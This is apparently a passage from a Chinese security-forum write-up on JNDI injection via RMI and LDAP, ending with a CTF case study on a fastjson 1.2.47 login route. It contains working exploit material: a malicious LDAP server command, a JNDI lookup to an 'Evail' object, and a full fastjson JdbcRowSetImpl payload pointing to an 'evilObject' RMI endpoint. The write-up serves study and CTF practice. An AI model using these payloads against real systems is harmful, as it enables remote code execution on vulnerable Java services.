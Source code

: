 ```bash
java -jar LDAPServer.jar 127.0.0.1 1.txt
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-196feb809e0dd6843518003229a3f4222e52c26b.png)​

然后直接去JNDI查询

```java
SayHello sayHello = (SayHello)initialContext.lookup("ldap://127.0.0.1:6666/Evail");
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-f791281163d00a45c42402998e4b8fda42a3c821.png)​

调试一下

会走到序列化的逻辑进行反序列化

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-f73bd107bd12f7c654586cc178c9b7f375f902de.png)​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-6c4377e4b8b3a04cf29b2b5fac602b94fb6f065a.png)​

‍

总结
==

这里要注意的点就是 RMI和LDAP都是需要出网的环境进行远程方法调用或者是目录名称查询，所以都是可以操作的，下图是两种方式的jdk适配版本总结，那么其实绕过跟一遍断点即可理解完，都是一些攻防博弈，非常值得学习

![0174054c5c01883e9b99a07631b58e3](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-18485b7c978f81c039c550add97160950b34bbd6.png)​

‍

案例分析
====

‍

湖南邀请赛 - Login
-------------

‍

tips: 本地是用的是jdk8u65起的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-71e5d8229ed3771e8dc03db04a03c62b7f325118.png)​

明显`login`​路由这存在一个打`fastjson`​的入口，屏蔽了关键字，看依赖是`1.2.47`​的fastjson

第一反应肯定是打以下的payload

```java
import com.alibaba.fastjson.JSON;

public class Fastjson6 {
    public static void main(String[] args) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/evilObject\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}
```